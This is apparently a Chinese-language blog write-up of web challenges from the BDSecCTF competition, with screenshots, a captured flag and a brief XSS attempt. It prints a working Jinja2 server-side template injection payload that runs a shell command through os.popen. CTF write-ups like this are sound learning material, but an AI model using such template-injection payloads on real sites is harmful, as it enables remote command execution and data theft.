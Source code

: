 ```yaml
---
title: BDSecCTF
date: 2022-07-22 00:11:58
tags: 
       - 赛后复盘
       - CTF
categories: 
       - [赛后复盘]
       - [CTF]
---
```


![image-20220721230519190](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202207212305269.png?x-oss-process=hzy)



--------------------



# 前言

这个国外的比赛我自己认为比较面向新手吧，但是我依然不能全做出来，继续努力继续努力

# Web

## Jungle Templating

![image-20220721184455566](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202207211845506.png?x-oss-process=hzy)

初步判断是SSTI，会得出运算结果

![image-20220721184551241](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202207211845309.png?x-oss-process=hzy)

查看配置文件情况

![image-20220721184627928](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202207211846030.png?x-oss-process=hzy)

```
{{cycler.next.__globals__.os.popen('nl *')|max}}
```

![image-20220721185115064](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202207211851131.png?x-oss-process=hzy)

BDSEC{Y3Y_7H1515_7H3_F146}

## Awesome Note Keeping

![image-20220721235630128](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202207212356207.png?x-oss-process=hzy)

写笔记，试试呗，传个xss弹窗，发现是可以的，但是不存cookie应该也找不到啥东西，放弃这个思路
